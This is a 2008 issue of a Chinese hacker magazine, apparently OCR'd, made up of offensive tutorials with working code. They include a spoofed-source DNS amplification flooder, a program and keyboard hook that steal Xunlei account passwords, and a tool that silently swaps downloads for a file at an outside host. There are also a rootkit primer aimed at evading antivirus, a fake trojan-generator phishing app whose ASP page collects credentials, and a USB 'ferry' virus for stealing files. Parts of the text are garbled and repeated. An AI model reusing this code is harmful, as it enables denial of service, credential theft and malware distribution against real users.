## 快报加编 | 2008.06 | 详解安全—黑客手册

地址之间的转换及有关电子邮件的路由信息。例如，我们在 IE 中浏览一个网站时，需要在地址栏中输入域名，这个域名必须经过解析得到其对应 IP，之后利用这个 IP 才能和目标主机之间通信。而 DNS 正是完成域名解析成 IP 的工作。

首先本机发送一个 DNS 查询数据包给 DNS 服务器，询问服务器某个域对应的 IP，DNS 服务器收到查询数据包后，返回一个响应数据包，告诉本机此域名所对应的 IP。当本机得到了这个 IP 后就能相互间通信了。抓包比较一下 DNS 查询数据包和 DNS 响应数据包，如图 1 所示。


从图 1 中可以看到，DNS 响应数据包比查询数据包大得多。假如可以发送经过精心构造的 DNS 查询数据包，并让 DNS 服务器认为此 DNS 查询请求是另一台主机发起的，那么 DNS 服务器就会向另一台主机发送 DNS 响应数据包。而 DNS 响应数据包也有查询报文中许多字段，可以被攻击者构造、伪造，或者使用多个查询数据包使 DNS 服务器触发攻击，那么被攻击者就会遭受网络瘫痪，这就是 DNS 放大攻击。

要实现此类攻击，最重要的就是要能够实现伪装 DNS 服务器，让它认为此 DNS 查询请求是另一台主机发起的。实现这一功能，我们可以构造一个 DNS 查询数据包来完成欺骗。要构造 DNS 查询数据包，当然要对 DNS 查询数据包的结构有所了解。


这里通过图片来说明此数据包的结构，如图 2 所示。从图 2 中可以看到，此数据包包含了 IP 首部，而 IP 首部是用来实现在网络中的寻址的，所以实现伪装 DNS 请求来源的工作，就由我们精心构造的 IP 首部来实现。


接下来我们来了解一下 IP 首部的具体结构，如图 3 所示。从图 3 中看出 IP 首部还是挺复杂的，但是这里要做特殊处理的只有“32 位源 IP 地址”，把它填写成攻击目标主机的 IP 地址即可。因为 DNS 服务器是通过读取 IP 首部的 32 位源 IP 地址来确定数据包来源的，从而向这个 IP 地址返回 DNS 响应数据包，而当源 IP 地址被修改成了攻击目标主机的 IP 后，当 DNS 服务器收到此查询数据包，就认为此数据包是由要攻击的主机发送的，所以就会把 DNS 响应数据包发送到要攻击的主机上，这样就实现了对 DNS 服务器的欺骗。

IP 首部结构的具体定义如下：

```c
typedef struct _IPHeader
{
    UCHAR   iphVerIhl;      // 版本号和头长度（各占4位）
    UCHAR   iphTOS;         // 服务类型
    USHORT  iphLength;      // 数据包长度，即整个IP报文的长度
    USHORT  ipID;           // 数据包标识，唯一标识
    USHORT  iphFlags;       // 标志
    UCHAR   iphTTL;         // 生存时间，数值就是TTL
    UCHAR   iphProtocol;    // 协议类型
    ULONG   ipSource;       // 源IP地址
    ULONG   ipDestination;  // 目的IP地址
    USHORT  usChecksum;     // 首部校验和
} IPHDR;
```

```c
UCHAR   cVersion : 4;        // 版本号
UCHAR   cHeaderLen : 4;      // 头长度
USHORT  usIPLength;          // 数据包长度，即整个IP报文的长度
USHORT  usPacketID;          // 标识，唯一标识
USHORT  usFlags_Offset;      // 标志
UCHAR   cTTL;                // 生存时间，即TTL
UCHAR   cProtocol;           // 协议类型
ULONG   dwIPSource;          // 源IP地址
ULONG   dwIPDestination;     // 目的IP地址
USHORT  usChecksum;          // 首部校验和
```

接下来我们就来构造 IP 首部，具体代码如下：

```c
// 目的IP地址，也是DNS服务器IP
BYTE   DesIp4[4] = {210, 33, 24, 1};
// 源IP地址，这里要设置攻击的目标主机的IP
BYTE   SourceIp[4] = {192, 168, 1, 10};
IPHeader->iphVerIhl = (4 << 4) | (sizeof(IPHeader) / 4);
IPHeader->iphTOS = 0;
IPHeader->iphLength = htons(sizeof(IPHeader) + sizeof(UDPHeader) + sizeof(DNS) + sizeof(QUERY));
IPHeader->ipID = 128;
IPHeader->iphFlags = 0;
IPHeader->iphTTL = 128;
IPHeader->iphProtocol = IPPROTO_UDP;
IPHeader->ipSource = *(DWORD*)SourceIp;
IPHeader->ipDestination = *(DWORD*)DesIp;
IPHeader->usChecksum = checksum((USHORT*)iphdr, sizeof(IPHeader));
```

这样 IP 首部就构造完了。既然构造的是 DNS 查询数据包，那么“DNS 查询报文”部分也比较重要，下面我们就来填写这一部分。这部分由两个结构组成：DNS 数据包首部和 DNS 查询报文问题部分，它们的结构定义分别如下：

```c
typedef struct _DNS
{
    // 标识，通过它，客户端可以将DNS的请求与应答相匹配
    unsigned short id;
    // 标志：[QR | opcode | AA | TC | RD | RA | zero | rcode]
    unsigned short flags;
    // 问题个数
    unsigned short quests;
    // 授权记录数目
    unsigned short answers;
    // 授权资源记录数目
    unsigned short author;
    // 额外资源记录数目
    unsigned short addition;
} DNS, *PDNS;
```

```c
typedef struct _QUERY
{
    // 查询域名，这里是一个大小在1到63之间的字符串：
    BYTE len1;
    char name1[3];
    BYTE len2;
    char name2[5];
    BYTE len3;
    char name3[4];
    // 查询类型，大约有20个不同的类型
    unsigned short qtype;
    // 查询类别，通常是A类，查询IPv4地址。
    unsigned short qclass;
} QUERY, *PQUERY;
```

在“DNS 报文首部”中要说明的是 16 位标志字段，其中 QR 占了 1 位，表示报文的类型，0 表示查询报文，1 表示响应报文，这里设为 0，表示查询报文。

在“DNS 查询报文问题部分”中，name1、name2、name3 用于……

## 软件安全编程手册 2008.06 →【快码加编】

来表示一个域名，比如要表示 www.baidu.com，那么 name1 就是 www，name2 就是 baidu，name3 就是 com，而且 len1 表示 name1 中数据的字节数，len2 表示 name2 中数据的字节数，以此类推。type（查询类型）和 classes（查询类）都设成 1 即可，表示通过域名查 IP。

这部分的代码如下：

```c
DNS *pDnsHdr; //(DNS *)&buf1[(sizeof(ETHDR)+sizeof(IPHeader)+sizeof(UDPHeader))]
//标识，通过它，客户端可以给DNS的请求与应答相匹配。
pDnsHdr->id=htons(0x07e5);
//标志。
pDnsHdr->flags=htons(0x0100);
//问题数。
pDnsHdr->quests=htons(1);
//授权资源记录数目。
pDnsHdr->answer=htons(0);
//额外资源记录数目。
pDnsHdr->addition=htons(0);
QUERY* pQUERY=(QUERY*)((BYTE*)buf1[(sizeof(ETHDR)+
sizeof(IPHeader)+sizeof(UDPHeader)+sizeof(DNS))]);
//查询名由3部分组成
strcpy((char*)pQUERY->name1,"www");
pQUERY->len1=0x03;
strcpy((char*)pQUERY->name2,"baidu");
pQUERY->len2=0x05;
strcpy((char*)pQUERY->name3,"com");
//查询类
pQUERY->classes=1;
//查询类型
pQUERY->type=1;
```

构造完了“DNS 查询报文”之后，还有以太网首部和 UDP 首部需要构造。UDP 首部比较简单，所以这里就不详细了，具体代码请参照光盘。接下来继续构造以太网首部，以下面代码的结构定义如下：

```c
//以太网首部
typedef struct _ETHDR
{
    unsigned char  eth_dst[6];  // 目的 MAC 地址
    unsigned char  eth_src[6];  // 源 MAC 地址
    unsigned short eth_type;    // 协议类型
} ETHDR, *PETHDR;
```

这里要强调的是 eth_type（帧类型）字段，由于以太网首部后面接着的是 IP 数据报，所以 eth_type 要改成 0x0800。源 MAC 地址当然是自己网卡的 MAC 地址，目的 MAC 地址一般设成网关的 MAC，因为数据包是先到达网关然后再转发给服务器的。来看看代码吧：

```c
ETHDR *eth=(ETHDR*)buf1;
//目的MAC地址，这里是网关的MAC地址
GetDstMac("192.168.1.1",eth->eth_dst);
//源MAC地址，本机网卡MAC
GetLocalMac(eth->eth_src);
//帧类型，IP数据报0x0800。
eth->eth_type=htons(0x0800);
```

GetDstMac() 和 GetLocalMac() 是我写的两个函数，分别用来得到目标 IP 的 MAC 地址和本机网卡的 MAC 地址，具体代码在光盘中，由于版面问题这里就不给出了。

到目前为止，DNS 查询数据包已经构造好了，接下去要发送数据包了。一般发送程序构造好的数据包有两种方法，一种是用原始套接字，另一种是用 WinPcap 开发包，不过这里我们只能选用 WinPcap 开发包，因为在 XP 下用原始套接字发送的数据包是不能修改 IP 首部中的源 IP 地址。发送数据的代码如下：

```c
// 存放适配器名称
char AdapterName[8192];
ULONG AdapterLength;
// 得到所有网卡适配器名称
if(!PacketGetAdapterNames(AdapterName,&AdapterLength)==FALSE)
{
    printf("PacketGetAdapterNames Error\n");
    return -1;
}
char *name1,*name2;
name1=AdapterName;
name2=AdapterName;
// 列举出所有网卡名称
while(*name1!='\0' || *name2!='\0')
{
    if(*name1=='\0')
    {
        memcpy(adapterlist[i],name2,2*(name1-name2));
        name2=name1+1;
        i++;
    }
    name1++;
}
adapternum=i;
printf("Adapters Installed:\n");
// 打印出所有网卡名称
for(i=0;i<adapternum;i++)
{
    printf("%d - %s\n",i+1,adapterlist[i]);
}
// 由用户选择要打开的网卡
do
{
    printf("\nSelect the number of the adapter to open: ");
    scanf("%d",&open);
    // 输入的网卡号必须大于1且此网卡序号数小于i
    if(open>=1 && open<adapternum+1)
        break;
}while(open<1 || open>adapternum);
// 打开选择的网卡
LPADAPTER lpadapter=PacketOpenAdapter(adapterlist[open-1]);
if(lpadapter == NULL || lpadapter->hFile==INVALID_HANDLE_VALUE)
{
    printf("PacketOpenAdapter Error\n");
    return -1;
}
LPPACKET lppackets;
// 为LPPACKET结构分配空间
if((lppackets=PacketAllocatePacket())==FALSE)
{
    printf("PacketAllocatePacket Send Error\n");
    return -1;
}
// .......... 构造数据包：保存在 buff 中，就是上面讲解的代码
PacketInitPacket(lppackets, buf1, sizeof(ETHDR)+
sizeof(IPHeader)+sizeof(UDPHeader)+sizeof(DNS)+sizeof(QUERY));
while(1)
{
    if(PacketSendPacket(lpadapter, lppackets, TRUE)==FALSE)
    {
        printf("PacketSendPacket in armsport Error, %d\n", GetLastError());
        return -1;
    }
    Sleep(100);
}
// 关闭打开的网卡
PacketCloseAdapter(lpadapter);
```

文章就到这里吧，大家有什么疑问或建议可以到“黑手”论坛上给我留言，我的 ID 是“认真的写”。

## Asp 解密游戏编写与通关策略（三）

从本文您可以学到：学习黑客解密游戏的破解与编写。

前面我们已经写到了第七关，接下来的关卡设置又有什么特别之处呢？请往下看。

### 第八关

这一关游戏又要用到 VB 程序，运行后没有任何提示，需要进行升级，我们使用的是 VBexplorer.exe，直接将程序载入，即可以看到窗体中有两个标签，label2 中储存了密码信息。当然，VB 的一个特点就是 label1、text 控件中的内容是可以保存的，大家将程序保存为 txt 文件，打开后也能识别到密码。


### 第九关

这一关打开之后就提示密码错误：“抱歉，你输入的通关密码错误！你不能通过！”，提交过后似乎没有任何反应，但仔细观察地址栏，可以发现一个参数，如 9981.asp?pass=no。把 no 替换成 pass，不是意味着让过关？换个 pass=yes 试试，马上提示出下一关的地址了。这就是一个简单的参数改变，默认时我们在表单里提交地址是 9981.asp?pass=no，而 `<form name=form1 method=post action=9981.asp?pass=no>` 接收时则判断 pass 的值。代码如下：


大家在注入的时候需要经常观察地址栏的特征，这里也用到了。

### 第十关

这关要求读一条新闻，但似乎不是什么新闻，因为只是一个欢迎页面，但是地址栏会显示内容的标题：news/amp.asp?id=46，有参数传递。在后面加一个“'”试试，回显提示数据库出错，这个是非常典型的注入了。对！这里明摆着要用一个注入漏洞，结合数据库，拿到真实的密码，到了里面会全部看到，很快可以得到结果。写这一关游戏时，我直接选用了雷傲新闻系统 1.0，是存在注入漏洞的。当然，我只留下了新闻页面，如果把后台也留下，那我的站可要泄露了 ^_^。

### 第十一关

这一关有提供一个 VB 程序，运行后没有任何提示，需要进行升级，我们使用的是 VBexplorer.exe，直接将程序载入，即可以看到窗体中有两个标签，label2 中储存了密码信息。当然，VB 的一个特点就是 label1、text 控件中的内容是可以保存的，大家将程序保存为 txt 文件，打开后也能识别到密码。


### 第十二关

这一关再好解不过了，考验大家的眼力了。程序运行后各个数字中间会依次变灰，大家只要记住正在变灰的顺序就可以得到密码了。程序运行如图 3 所示。


十六关是做了 s-player 程序，我们在录像中提示出密码信息，然后给录像设置一个密码，大家只要解密就可以过关了。这里只需要一个 s-player 免密码补丁，有了这个补丁就可以直接观看录像，不再是前面猜字面了。程序我已经提供。

十六关是一个 wav 文件和一个 txt 文件合并了，同样是使用 copy 命令，`copy 1.wav + 1.txt 2.wav`，2.wav 里面有密码信息。

至此全部第一轮游戏就编写结束了，另外还需要提供两个注册页面，给完成第一轮游戏的朋友开放成沙龙 VIP，将他们的名字列到解密第一首页，以示鼓励。具体的代码我不再赘述，大家已经全部打包，欢迎各位朋友与我交流，第二轮的游戏编写还请大家期待。

（作者提到的 ASP 解密游戏编写与通关策略（三）的代码已经被我放在光盘中）

编辑点评：

最大化、地址栏，直接记下来就行。考虑这些都是细节方面的，但不可以忽略，因为入侵仅失在犯低级错误处。很好玩！哈哈哈。

## 从迅雷看视频软件安全

（作者提到的相关代码已经被我放在光盘中）

编辑点评：

ARP 欺骗过时，DNS 欺骗又来，不过这次不是什么新技术了，但可以利用我们丰富的想象力来运用它，使它成为我们手中的利器。

从本段您可以学到：

- 利用非 HOOK 和 HOOK 获取方式截取账号及密码
- 利用系统消息“劫持”迅雷的下载目标

现在的网络鱼龙混杂，各种木马病毒横飞，作为一名网络爱好者，不能只去用别人的程序，至少要知道原理。很早就想写一篇类似的文章，今天先就来说一谈关于迅雷。

## 编程实现获取迅雷账号

由于我们现在还不了解迅雷软件内部的结构，需要使用 Spy++ 去查看。打开 Spy++，找到迅雷 5 窗口，查看结构，如图 1（见光盘）所示。从图 1 中可以看出迅雷内部所使用的类名以及控件名称，而且我们感兴趣的是输入账号和密码的控件。使用 Spy++ 可以很方便地查看所处窗口的父窗口，以输入账号的控件为例，使用 Spy++ 查看结果如图 2（见光盘）所示。


从图 2 中可以清楚地看到输入账号的控件顺序从主窗口开始依次为：

迅雷 5 -> AxFr:400000.8:1001!1.6:0 -> 完全数据窗口：AxFramReView42 -> #32770（Dialog）-> ComboBox -> Edit。

利用同样的方法可以很轻松地找到密码输入框的位置，依次为：

迅雷 5 -> AxFr:400000.8:1001!1.6:0 -> 完全数据窗口：AxFramReView42 -> #32770（Dialog）-> Edit。

整体结构分析清楚了之后就好办了，我们只需按一定思路逐级找到我们所需要的窗口句柄。一般来说，所有有一定目的的窗口，后面都一定有接下来要处理的思路，而微软提供了一个很好的 Win32 API，下面来介绍一下：

```c
HWND FindWindowEx(
    HWND hwndParent,      // handle to parent window
    HWND hwndChildAfter,  // handle to child window
    LPCTSTR lpszClass,    // class name
    LPCTSTR lpszWindow    // window name
);
```

其中第一个参数是父窗口句柄，第二个参数是子窗口的句柄，第三个参数是类名，第四个参数是窗口的标题名。我们只需要使用这个函数即可找到账号输入窗口和密码输入窗口的句柄，从而获取其中的密码。我们还需要使用另外一个 API 函数，代码如下：

```c
LRESULT SendMessage(...)
```

明白了简单的 API 的使用方法之后，就可以开始写程序了。使用 VC++ 建立基于对话框的 MFC 程序，在对话框中添加控件，如图 3 所示。首先添加 2 个全局变量 s_UserBuffer、s_PassBuffer，分别用来接收获取到的账号和密码，并建立【开始】按钮的响应函数。我们需要判断系统中当前是否运行有迅雷程序，所以需要先安装一个定时器，代码如下：


```c
void CGetPSWDlg::OnStart()
{
    // TODO: Add your control notification handler code here.
    SetTimer(1, 500, 0);   // 每间隔0.5秒检查一次OnTimer
}
```

然后在类 CGetPSWDlg 中添加 OnTimer 事件响应函数，代码如下：

```c
void CGetPSWDlg::OnTimer(UINT nIDEvent)
{
    // TODO: Add your message handler code here and/or call default.
    if (nIDEvent == 1)
    {
        GetPassWord();   // 获取密码的方法
    }
    CDialog::OnTimer(nIDEvent);
}
```

接着再为类 `CGetPSWDlg` 添加 `GetPassWord()` 方法，代码如下：

```c
BOOL CGetPSWDlg::GetPassWord()
{
    HWND h_mXunLei = ::FindWindowEx(...);
    // 查找迅雷5的窗口
    if (h_mXunLei == NULL)
        return FALSE;
    ...
}
```

## 非法盲狙手册

其中第一个参数需要指定钩子类型，我们可以使用“键盘钩子”，第二个参数为指定钩子处理过程函数，第三个参数为程序实例句柄，第四个参数为线程 ID。

此函数可以这样写，其中的 g_hMouse 为 HHOOK 类型的全局变量：

```c
HHOOK hMouse = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, GetModuleHandle(NULL), dwTid);
```

被调用的钩子过程写法如下，其中需要包括对键盘所输入的内容进行判断以及记录，这里我只进行了简单的判断：

```c
LRESULT CALLBACK KeyboardProc(
    int nCode,    // hook code
    WPARAM wParam,  // virtual_key_code
    LPARAM lParam   // keystroke_message information
)
{
    if (nCode < 0) {
        return CallNextHookEx(g_hMouse, nCode, wParam, lParam);
    }
    if (nCode == HC_ACTION)
    {
        MSG* pEventMsg = (MSG*)lParam;
        if (pEventMsg->message == WM_KEYDOWN)
        {
            int vKey = pEventMsg->wParam;
            char ch;
            memset(Buff, 0, 10);
            if (vKey >= 48 && vKey <= 57) {
                /* case mapping */
            }
        }
    }
    return CallNextHookEx(g_hMouse, nCode, wParam, lParam);
}
```

判断是否有键盘输入。

的 ASCII 码值

是否是主键盘区的数字


最后将以上代码编译即可，如图 4 所示。点击【开始】按钮，程序将对迅雷的密码进行探测，并将得到的账号和密码显示出来，如图 5 所示。由于是演示程序，为了直观地表现效果，所以笔者建立的是 MFC 工程。但是一般的小木马都是隐藏运行，在后台悄悄地监视迅雷的账号和密码，只需稍加改造，即可成为一款盗取迅雷账号的木马。

以上所述均为非基于 HOOK 技术的密码捕获，其实我们也可以使用 HOOK 钩子来截取密码，下面简单地介绍一下此类方法。当迅雷启动时，安装 DLL 中的全局钩子句柄，需通过以下函数进行：

```c
HHOOK SetWindowsHookEx(
    int idHook,        // hook type
    HOOKPROC lpfn,     // hook procedure
    HINSTANCE hMod,    // handle to application instance
    DWORD dwThreadId   // thread identifier
)
```

这里又给出了一个思路，其中密码记录的钩子过程对字符的判断和处理还不完全，如果读者感兴趣可以自行添加。

### 编程实现迅雷账号下载

以上介绍了获取迅雷账号和密码的程序编写，下面来说说迅雷本身下载功能的安全性。读者在平时上网冲浪的过程中避免

## 通过编程实现利用迅雷软件挖内家攻击自己所指定的软件

都会遇到被安装流氓软件或者恶意插件，我们今天就针对迅雷来讲，如何通过编程实现利用迅雷软件挖内家攻击自己所指定的软件。作为演示，同样用 VC++ 建立 MFC 工程，编译界面如图 6，为程序添加两个 public 的变量：hDownAddr、hXLDown，分别保存下载地址的窗口句柄和当前窗口的句柄。然后添加【开始拦截】按钮的响应函数代码。


```cpp
void CHookTextDlg::OnStart()
{
    // TODO: Add your control notification handler code here
    SetTimer(1,500,0);  // 添加一个定时器
}

void CHookTextDlg::OnTimer(UINT nIDEvent)
{
    // TODO: Add your message handler code here and/or call default
    hXLDown = ::FindWindow(NULL, _T("建立新的下载任务"));
    if(hXLDown != NULL)
    {
        char s_URL[256] = {0};
        POINT point;
        GetCursorPos(&point);  // 得到鼠标位置
        HWND hlastchildhwnd = ::WindowFromPoint(point);
        ::SendMessage(hlastchildhwnd, WM_GETTEXT, 255, (LPARAM)s_URL);
        if(strcmp(s_URL, "确定") == 0)  // 如果点击了“确定”按钮
        {
            StartChange();  // 启动函数
        }
    }
    CDialog::OnTimer(nIDEvent);
}
```

StartChange() 函数即是替换地址的函数，详细代码如下：

```cpp
void CHookTextDlg::StartChange()
{
    hDownAddr = ::FindWindowEx(hXLDown, NULL, _T("Edit"), NULL); // 查找填写下载地址的窗口句柄
    ::SendMessage(hDownAddr, EM_SETSEL, 0, 0xFFFF);
    ::SendMessage(hDownAddr, EM_REPLACESEL, 0, LPARAM("http://www.hacksa.cn/text.exe")); // 替换地址
}
```

编译连接当前程序，如图 7 所示。点击【开始拦截】按钮，当迅雷准备下载程序的时候，原有的地址将被替换成已经设好的“http://www.hacksa.cn/text.exe”，此过程一刹那间就完成了，几乎不会被发现，如图 8 所示。如果不仔细观察，恶意软件下载完了，程序只要稍微修改便可成为 Win32 SDK 下的程序，即可隐藏运行。程序是死的，而人是活的，只要有一个正确的思路，实现这应该是很轻松的。以上程序有很多 BUG，比如判断的条件比较少，读者感兴趣可以自行添加。程序在 Win XP SP2 使用 VC++ 6.0 编译并执行通过。希望本文能起到一个抛砖引玉的作用，对于笔者水平有限，如果大家有更好的意见以及提建议可以到论坛找我，我的 ID 是一句话（作者提到的获取迅雷密码窗口句柄和修改下载的代码已经放在光盘里）。


编辑点评：迅通泛美的客户与员工工具将使其成为攻击对象，作者提前给了我们警示。

## Windows 下 RootKit 编写初步（一）

从本文您可以学到：
- 了解利用 DDK 及 DbgView 编译和调试程序
- 简单实现驱动级别的“hello, world!”

Rootkit 是持久且无法察觉地存在于计算机之上的一组程序和代码。——RootKit: Subverting the Windows Kernel

在恶意软件越来越“红”（打击力夸张而“准确”）的今天，正加速的拦截技术（其实刚巧的是正规和非正规化的软件）也越来越多。正因如此，我们有必要开发自己的远程控制软件，或者使用更好的技术来彻底实施“杀手”的意图。于是，把目标转向内核层次的远程控制实现。内核层次的实现有着相当多的好处，软件几乎具有最高的访问权限，可以干扰或者破坏杀毒软件的扫描，其本身甚至可以隐蔽进程。既然其有这么多的特征，已有足够的理由让它转向内核层次的实现了。

在 Windows 下，要想进入内核空间，最简单的方式莫过于使用驱动。驱动会涉及硬件的操作，硬件操作的指令有很多是特权指令，因而驱动程序都是在 ring0 特权级下，拥有最高权限。举个例子，在 ring0 特权级下，我们可以利用许多操作系统核心基础特征的特性，禁止“杀手们”的非警告行为。这还可以使其隐藏、更精致。使用更好的技术，以至于可进行较好的 RootKit，而现在作者要开始学习，最重要的是实现自己的内核级 RootKit。

## Windows 驱动编程入门

K&R 的 C 语言教程以一个“hello, world!”的例子开始。通常学习一个新东西更有效的方法是不要把学理弄得那么死，而是去实践。我们会重温这个经典的做法，下面看看 Windows 驱动下 Hello,world 的代码是怎么实现的。代码如下：

```c
#include "ntddk.h"

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    // do nothing
}

NTSTATUS DriverEntry(IN OUT PDRIVER_OBJECT theDriverObject,
                     IN PUNICODE_STRING RegistryPath)
{
    theDriverObject->DriverUnload = OnUnload;
    DbgPrint("Hello,world");
    return STATUS_SUCCESS;
}
```

显示“Hello,world”都很简单。让我们来分析程序代码。分析的重点是 DriverEntry() 函数。首先，很明显，程序中使用的是 C 语言。这个代码没办法，毕竟不能像 VB 之类的解释型语言来写驱动程序。其次，代码包含了两个函数，DriverEntry() 就是驱动程序的入口函数，可以把它看作 C 的 main() 函数，或 Win 下的 WinMain()，又或者是 DLL 中必须有的 DllMain() 函数。

接下来看看 DriverEntry() 函数中的代码。第一句“theDriverObject->DriverUnload = OnUnload”，作用是定义驱动程序卸载时应调用的卸载函数。我们可以不设定卸载函数，但是这样做的后果就是驱动程序安装后，在重启电脑之前不可以被卸载。这应该算符合我们的设计要求，不过直到现在还是测试阶段，写上卸载函数可以方便我们调试驱动程序，最终发布时再去掉卸载函数。

这里要说一下，驱动程序使用的 DbgPrint() 和标准 C 语言中的 printf() 的用法几乎完全相同。我们完全可以用 DbgPrint 输出驱动程序中间一些变量的值。为了编写程序时的方便（用 printf 习惯了），可以定义一下，代码如下：

```c
#define printf DbgPrint
```

问题解决得差不多了，代码最后一句返回 STATUS_SUCCESS，意思就是告诉操作系统，该函数调用成功了。有人要问了，DbgPrint 把字符显示到哪里了呢？不可能是屏幕上吧，呵呵，这是个好问题。既然 DbgPrint 的功能就是显示调试信息，说明它是调试器输出。也就是说，SoftICE 调试器才显示在调试窗口中。为了学习驱动，就要安装 SoftICE 吗？当然并不。这里有一个工具叫 DbgView，有专门用来查看驱动程序输出窗口的功能。

如图 1 所示。细心的人会发现，那个 INSTDRV 是干什么的？答案是加载驱动用的；因为安装加载驱动的代码比较复杂，我们暂时不去管它，我们用 DbgView 来调试，足够我们输出 debug 信息了。我们来看看 DbgView 的使用界面，如图 1 所示。


你领悟了吗？Build 怎么知道要编译的是哪个文件？呵呵，秘密隐藏在两个文件当中。第一个是 MAKEFILE（没有扩展名，全大写），里面的内容如下：

```makefile
!INCLUDE $(NTMAKEENV)\makefile.def
```

就一句，意思是使用默认的编译配置。另外一个文件才是关键，SOURCES（没有扩展名，全大写）内容如下：

```makefile
TARGETNAME=SATA_H424
TARGETPATH=obj
TARGETTYPE=DRIVER
SOURCES=startup_module.c
```

我来解释一下，第一行定义的是驱动程序编译的目标名字，这里是 SATA_H424，可以改成任何想要的名字。第二、第三行是定义编译类型，因为 DDK 也可以编译应用程序和动态链接库。为了编译驱动，这里只需要定义驱动的源文件名。如果有多个文件，可以用“\”续到下一行，在另一行中写下需要的文件名。例如：

```makefile
SOURCES=startup_module.c \
        Clear.c \
        My_func.c
```

现在启动 DbgView，再加载你的驱动，在 DbgView 里就可以看见“Hello,world”了。呵呵，这就是我们的第一个驱动程序，不是很有成就感吗！一旦熟练地应用，比如创建设备、直接内核对象等，以后会继续介绍，这次就这样了。

编辑点评：最终的一条 RootKit 入门文章，不玩不来，也实实在在地讲了相关内容，若你在接下来的文章中继续使用此方法，给广大菜鸟们来个讲透的“高深”技术。


## 从本文您可以学到：

- 简单利用社会工程学
- 了解 VB 及 ASP 获取密码程序的编写

## 编写 VB 程序

编写的这个 VB 文件是一个伪装的 QQ 木马生成器，界面设计如图 1 所示。我们放入两个 Label 用于显示提示信息，两个 TextBox 让他人输入账号和密码，再加两个 Button 按钮。Text1 的 Text 属性默认为一个 126 的邮箱地址，也就是伪装成一个黑客工具箱。因为需要输密码，第二个 Text 让我们将 PasswordChar 属性设定为“*”，别人输入的所有内容都将显示为点。由于需要访问指定的网页，我们另外添加一个 WebBrowser 控件，这个不是基本控件，必须自己添加。在左侧的控件栏中右键，选择“部件”，然后选中 Microsoft Internet Controls，确认即可，如图 2 所示。


```vb
Private Sub Command1_Click()
    Dim show '声明一个变量
    WebBrowser1.Navigate ("http://www.ngstu.com/mail.asp?name=" & _
    Text1.Text & "&pass=" & Text2.Text)
    '访问 mail.asp 发送邮箱信息，Text1 中为用户名，name 参数名也可以随机，这里全靠它。
    '为了测试方便，我们仅提交
    If Text2.Text = "" Then
        show = MsgBox("对不起，密码错误，请输入正确的密码！", vbInformation, "失败")
    Else
        show = MsgBox("登录邮箱失败，请设置 smtp 位置", vbInformation, "网络错误")
    End If
End Sub
```

```vb
Private Sub Command2_Click()
    Dim show
    show = MsgBox("请关闭浏览器", vbInformation, "测试过！")
End Sub
```

## 编写 ASP 密码接收页面

一些盗号木马采用了 ASP 页面来接收密码，我们使用相同的方式。为了方便，直接将接收到的账号和密码写入 txt 文件就可以了，大家查看这段接收的 ASP 代码：

```asp
<%
on error resume next '出错继续执行后续语句
name=request("name") '将得到的地址赋给 name
pass=request("pass") '将密码赋给 pass
set fso=server.createobject("scripting.filesystemobject") '创建 fso 对象
if name<>"" then '如果 name 不为空我们写入语句
    set file=fso.opentextfile(server.mappath("mail.txt"),8,true) '写入
    file.writeline("username," & name) '写
    file.writeline("password," & pass) '写
    file.close
end if
set file1=fso.opentextfile(server.mappath("mail.txt"))
response.write file1.readall '这里将文本读取出来
file1.close
%>
```

代码十分简单了，如果您盗得很多，也可以写入数据库。必须注意的是，我们这里只是直接打开文件写入，事先应该新建一个空的文本 mail.txt 上传到空间中。

## 实战演练

程序编写结束之后，我分给了几个朋友，也包括玩恶意的，呵呵。除了玩耍的朋友以外，其他的全部中了招。由此可以看出，社会工程学对于木马的成功是很好用的。我们深深图谋一切的程度，到寄邮件送了朋友又找到了朋友，仍然不能高兴。是的，我们的木马不仅能够获取账号，还能够直接得到特定的邮箱内容，如图 3 所示。


这里我只是给大家提供一种思路。当然，盗取别人的账号是不道德的，别人肯运行你的程序也代表了对你的信任，大家不要随便玩这些。如果玩坏了无所谓，但对他人的账号大家可要谨慎使用。如果大家有兴趣，可以看看《黑客手册》官方论坛与我讨论，我的 ID 是冰城剑客，《作案菜单》VB+ASP 社会工程学盗取邮箱账号的代码已经收录在光盘中。

## 编程模拟“摆渡”型 U 盘病毒

从本文您可以学习到：
- 简单学习 VC++ 基本使用方法
- 了解 U 盘窃取文件的过程
- 利用“摆渡”实现文件传播

“摆渡”型 U 盘病毒的原理：有三台电脑 A、B 和 C，假设 A 没有接入网络，而 B 通过网络与 C 连接。当 A 在 A 机上使用感染该病毒的 U 盘，病毒先会在 A 机中复制感染该病毒的 U 盘，病毒随后会将 A 机中的敏感资料拷贝到 U 盘中，接下来如果将 U 盘交在 B 机上使用，则该病毒就可以通过网络把从 A 机中窃取的资料传到指定主机。

本程序通过 VC 编程来模拟病毒的上述功能。该程序分为三个步骤：第一步，将资料拷贝到 U 盘中（A 机中完成）；第二步，将可移动存储器中的资料通过网络拷贝到指定的机器。


### 将资料拷贝到 U 盘中

- 得到插入的 U 盘的盘符

使用 GetDriveType 函数得到插入 U 盘的盘符，具体代码如下：

```cpp
for (szDriverName[0] = 'C'; szDriverName[0] < 'Z'; szDriverName[0]++) {
    if (GetDriveType(szDriverName) == DRIVE_REMOVABLE) {
        USB = szDriverName[0];
        return true;
    }
}
```

以上语句的含义是从盘符 A 搜索到盘符 Z，当 GetDriveType 函数返回值为 DRIVE_REMOVABLE 的时候，则说明其盘符为 U 盘盘符。

- 在 A 电脑中搜索指定格式的文件

在《Hack 编程实例精讲 II》一书的第二章介绍了使用文件夹链表来查找文件的方法，我们借用一下，相关代码如下：

```cpp
char FileRoad[256] = {0};
char DirRoad[256] = {0};
char FindedFile[256] = {0};
char FindedDir[256] = {0};
strcpy(FileRoad, pRoad);
strcpy(DirRoad, pRoad);
strcat(DirRoad, "\\*");
WIN32_FIND_DATA FindData;
HANDLE hFindFile;
hFindFile = FindFirstFile(FileRoad, &FindData); // 开始搜索
if (hFindFile != INVALID_HANDLE_VALUE) {
    do {
        if (FindData.cFileName[0] == '.') { // 如果是 . 或 ..
            continue;
        }
        if (FindData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) { // 如果是文件夹则进行判断
            strcpy(FindedDir, pRoad); // pRoad 是指定的文件夹
            strcat(FindedDir, "\\");
            strcat(FindedDir, FindData.cFileName);
            AddList(FindedDir); // 把该文件夹加入链表
            memset(FindedDir, 0x00, 256);
        }
    } while (FindNextFile(hFindFile, &FindData));
}
```

